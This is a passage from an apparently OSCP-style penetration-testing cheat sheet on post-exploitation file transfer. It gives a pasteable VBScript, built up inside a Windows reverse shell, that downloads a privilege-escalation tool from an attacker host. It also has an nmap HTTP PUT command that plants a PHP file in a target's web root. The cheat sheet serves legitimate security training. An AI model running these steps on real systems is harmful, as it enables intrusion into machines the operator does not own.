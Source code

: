     -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

      The file can be run using the following syntax:
      
      `C:\temp\cscript.exe webdl.vbs`
      
-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php


    Also check : https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------
